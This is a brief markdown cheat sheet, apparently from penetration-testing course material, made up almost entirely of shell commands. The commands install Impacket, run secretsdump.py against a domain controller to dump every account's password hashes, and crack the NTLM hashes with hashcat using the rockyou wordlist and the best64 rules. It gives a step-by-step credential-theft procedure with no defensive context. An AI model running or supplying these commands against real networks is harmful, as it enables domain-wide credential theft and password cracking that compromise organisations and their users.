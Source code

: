 ```yaml
---
legal-banner: true
---
```


### **Using Impacket secretsdump.py**

1. Update the package list:  
   ```bash
   sudo apt-get update
   ```

2. Install Python3-pip:  
   ```bash
   sudo apt-get install python3-pip
   ```

3. Install Impacket:  
   ```bash
   pip3 install impacket
   ```

4. Extract hashes from the Domain Controller:  
   ```bash
   secretsdump.py -outputfile inlanefreight_hashes -just-dc EXAMPLE/[USERNAME]:[PASSWORD]@[IP_ADDRESS]
   ```

5. Install Hashcat:  
   ```bash
   sudo apt-get install hashcat
   ```

6. Crack NTLM hashes with Hashcat:  
   ```bash
   hashcat -m 1000 -a 0 example_hashes.ntds /usr/share/wordlists/rockyou.txt
   ```
   ```bash
   hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
   ```